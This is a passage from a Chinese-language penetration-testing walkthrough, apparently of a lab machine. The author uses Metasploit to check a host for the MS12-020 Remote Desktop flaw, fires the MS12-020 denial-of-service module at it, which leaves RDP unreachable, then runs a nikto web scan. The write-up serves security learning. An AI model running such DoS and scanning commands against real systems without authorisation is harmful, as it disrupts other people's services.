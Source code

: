 >    #  Name                                              Disclosure Date  Rank    Check  Description
>    -  ----                                              ---------------  ----    -----  -----------
>    0  auxiliary/scanner/rdp/ms12_020_check                               normal  Yes    MS12-020 Microsoft Remote Desktop Checker
>    1  auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  No     MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> 
> 
> Interact with a module by name or index. For example info 1, use 1 or use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> ```
> 
> 使用`auxiliary/scanner/rdp/ms12_020_check`模块。
> 
> ```bash
> msf6 > use auxiliary/scanner/rdp/ms12_020_check
> msf6 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 192.168.1.99
> rhosts => 192.168.1.99
> msf6 auxiliary(scanner/rdp/ms12_020_check) > exploit 
> 
> [+] 192.168.1.99:3389     - 192.168.1.99:3389 - The target is vulnerable.
> [*] 192.168.1.99:3389     - Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
> 
> 这里显示**The target is vulnerable.（目标很脆弱。）**，但是我找到该漏洞的exp并不能对目标造成影响。接下来我们继续尝试另外一个模块。
> 
> 使用`auxiliary/dos/windows/rdp/ms12_020_maxchannelids`模块。
> 
> ```bash
> msf6 auxiliary(scanner/rdp/ms12_020_check) > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 192.168.1.99
> rhosts => 192.168.1.99
> msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > exploit 
> [*] Running module against 192.168.1.99
> 
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - 210 bytes sent
> [*] 192.168.1.99:3389 - 192.168.1.99:3389 - Checking RDP status...（RDP 服务无法访问）
> [-] 192.168.1.99:3389 - 192.168.1.99:3389 - RDP Service Unreachable
> [*] Auxiliary module execution completed
> ```
> 
> 该模块也不能正常运行。接下来只能尝试其他端口。

+ 使用`nikto`。并没有发现特别的信息。只能用浏览器打开看看能不能找到有用的数据了。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nikto -host http://192.168.1.99
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.99
+ Target Hostname:    192.168.1.99
+ Target Port:        80
+ Start Time:         2022-06-30 05:33:14 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-aspnet-version header: 2.0.50727
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
```